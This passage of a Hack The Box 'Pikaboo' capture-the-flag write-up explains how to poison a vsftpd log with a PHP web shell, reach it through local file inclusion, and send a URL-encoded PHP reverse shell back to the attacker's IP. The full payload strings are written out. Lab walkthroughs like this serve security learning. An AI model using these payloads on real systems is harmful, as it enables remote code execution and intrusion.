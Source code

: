 Now, we can again perform the LFI on the vsftpd log file but also add a c parameter that executes the whoami command:

![pikaboo-vsftpd-log-whoami.png](/assets/images/posts/htb-pikaboo/pikaboo-vsftpd-log-whoami.png)

It works! Highlighted is www-data which is the user our web-service is running as. Successful command injection on the victim server.

From here, a reverse shell should be trivial. Here's a URL encoded php reverse shell we can use:
```
php+-r+'$sock%3dfsockopen("10.10.14.51",9001)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
```

Start up the nc listener on port 9001, (10.10.14.51 is our attacker IP), create a failed login attempt to ftp again with "<?php system($_GET['c']); ?>" as the username like we did before since the log keeps getting reset, and finally goto the URL with our reverse shell as the value of the c parameter like this:

```
http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log&c=php+-r+%27$sock%3dfsockopen(%2210.10.14.51%22,9001)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%27
```


[1]: https://app.hackthebox.com/users/157669
[2]: https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
[3]: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
[4]: https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=88890543
[5]: https://www.hackthebox.eu